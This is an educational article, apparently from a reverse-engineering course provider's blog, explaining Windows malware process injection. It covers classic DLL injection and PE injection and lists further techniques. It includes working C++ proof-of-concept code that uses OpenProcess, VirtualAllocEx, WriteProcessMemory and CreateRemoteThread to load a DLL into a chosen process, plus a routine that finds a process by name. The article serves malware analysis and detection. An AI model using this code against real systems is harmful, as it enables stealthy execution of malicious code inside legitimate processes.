:orphan:
(malware-injection-techniques-introduction)=

# Malware Injection Techniques: Introduction

Malware use process injection as an evasion method. It includes executing custom code within the address space of another process to achieve stealth and, in certain situations, persistence. Process injection can be performed using a variety of methods. In this article, we will discuss the most prevalent injection strategies, how they operate, and the methods employed by each.

This list will not be exhaustive, but it will include the most prevalent ones.

Understanding these strategies facilitates malware analysis and reverse engineering, hence aiding in their identification and defense.

Injection Techniques Covered:

1. Classical DLL Injection
2. PE Injection
3. Process Hollowing, Process Replacement, or RunPE
4. Thread Execution Hijacking (aka Suspend, Inject, Resume "SIR")
5. Injection via Hooks (`SetWindowsHookEx`)
6. Injection via Registry Modifications
7. APC Injection
8. Extra Window Memory Injection (EWMI)
9. Early Bird API Injection
10. Hooking Techniques

## Classic DLL injection

Malware puts the path to its DLL into the address space of a legitimate process and establishes a remote thread in the targeted process to ensure the remote process loads the injected code.

Let’s see how this is achieved:



First, the malware picks a target process, such as `svchost.exe`, to inject its code into.

Here, we can observe the victim process that will be exploited, as well as the malware process, on the left.

The malware will load the Malware DLL into the Target Process:



After identifying a target process, the malware calls `OpenProcess` to obtain a handle on the process:




Now the malware has a handle to use and access the target process:



To allocate memory space to write the path to its DLL, the malware calls `VirtualAllocEx`:




Then, it calls `WriteProcessMemory` to write the path in the memory of targeted process:




Then the malware will call an API function, such as `CreateRemoteThread`, `RtlCreateUserThread`, or
`NtCreateThreadEx`, to execute the injected code:





So, this is simple dirty PoC source code in C++:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\malware.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

But usually, the malware searches for a target process using three APIs:

- `CreateToolhelp32Snapshot`: This API is used to retrieve a snapshot for the heap or module state of a particular process or for all processes.
- `Process32First`: Return information about the first process from the snapshot from previous process
- `Process32Next`: Used to iterate through processes retrieved by `CreateToolhelp32Snapshot`:

```cpp
// find process ID by process name
int findTargetProcess(const char *procname) {
  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

```

Due to the enormous amount of `CreateRemoteThread` abuse incidents, however, a variety of security products can track and flag `CreateRemoteThread`.

In addition, this sort of injection requires the presence of a malicious DLL on disk, which is not stealthy for the adversary because it can be discovered.

Therefore, competent adversaries will not employ this tactic.

The figure below show a trace in disassembly of a DLL injection executed by the [Carberp](https://attack.mitre.org/software/S0484/):



## PE injection

In this injection method, the malware copies its harmful code (rather than sending the address to `LoadLibrary`) into an existing process and executes it via shellcode or by invoking `CreateRemoteThread`.

This technique is superior to the previous one since it does not require a malicious DLL on the disk.

Again we have the malware process and the victim which is being targeted for injection:


First, the malware allocates memory in a target process, such as `VirtualAllocEx`:



The malware then writes its code, instead of the DLL path, in the allocated memory space by calling `WriteProcessMemory` function:



The issue with this method is that the cloned image's base address will be altered. Injecting the malware PE into another process will generate an unpredictable new base address, requiring the malware to dynamically recompute its fixed addresses.

To remedy this issue, the malware must locate the position of its relocation table in the host process and then resolve the absolute addresses of the copied image by iterating the relocation descriptors.

This technique is less subtle than others, such as memory module injection and _Reflective DLL injection_, because it uses additional Windows APIs, such as `LoadLibrary` and `CreateRemoteThread`.

When analyzing PE injection, you may see nested loops (two _for loops_), before a call to the `CreateRemoteThread`
function. This technique is used by _Crypters_ (software that
obfuscate malware traces using encryption).

This code demonstrates how this technique works. The code contains two iterations prior to calling `WriteProcessMemory` and `CreateRemoteThread`:



These iterations adjust the relocation table. The instruction _"and 0x0fff"_ is another indication that the first `12 bits` of the relocation block are utilized to set the offset to the virtual address.

After computing all required addresses, the only thing left for the malware to do is provide its starting address to the `CreateRemoteThread` method to begin its operation:



## Conclusion

DLL injection enables the execution of your code in the address space of a currently operating process. Numerous individuals employ infections to create game cheats, to steal passwords, intercept system functions, and do another harmful behaviors, etc. However, this method is not always employed to carry out nefarious schemes; for instance, it may be used to update your application.

Once we have reason to believe that malware is injecting code into a legitimate process, we can confirm our suspicions by monitoring the malware's API calls. Analyzing unusual network behavior from a legitimate process or a legitimate process producing malicious files can trigger an alarm. We begin by configuring the API monitor tool to monitor any API calls related to process injection.

In the next parts of our blog, we will look at other equally interesting techniques and tactics.

## References

- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
- [Carberp](https://attack.mitre.org/software/S0484/)

:::{seealso}
Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html)
:::
